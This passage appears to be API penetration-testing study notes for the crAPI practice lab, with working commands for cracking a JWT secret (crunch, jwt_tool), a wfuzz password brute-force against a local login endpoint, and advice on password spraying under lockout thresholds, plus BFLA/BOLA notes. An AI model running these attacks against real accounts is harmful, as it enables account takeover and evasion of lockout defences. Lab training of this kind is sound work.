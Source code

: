 ##### JWT Crack Attack
Attempt to crack the JWT signature secret:

1. Generate password list:
```bash
crunch 5 5 -o crAPIpw.txt
```

2. Perform crack attack:
```bash
jwt_tool TOKEN -C -d /wordlist.txt
```
- `-C`: Hash crack attack
- `-d`: Specify dictionary/wordlist

## Classic Authentication Attacks

These attacks target traditional authentication mechanisms:

### Password Brute-Force Attack
Example using wfuzz:
```bash
wfuzz -d "{'email':'test3@example.com', 'password':'FUZZ'}" \
      -H "Content-Type: application/json" \
      -w /usr/share/wordlists/rockyou.txt \
      -u http://127.0.0.1:8888/identify/api/auth/login \
      --hc 500
```

### Password Spraying
Evade security controls by:
- Combining long user list with short password list
- Staying under lockout thresholds
- Using common passwords across multiple accounts

## Authorization Attacks

### Broken Function Level Authorization (BFLA)
BFLA focuses on unauthorized actions rather than unauthorized access:
- Lateral actions: Requests performing actions of same-role users
- Escalated actions: Requests performing administrative-level actions

### Broken Object Level Authorization (BOLA)
Requirements for BOLA exploitation:
1. Resource ID: Unique identifier for resources
2. Request accessing resources
3. Missing/flawed access controls

## Improper Asset Management

Focus on discovering:
- Unsupported API versions
- Non-production environments
- Testing environments
- Development endpoints
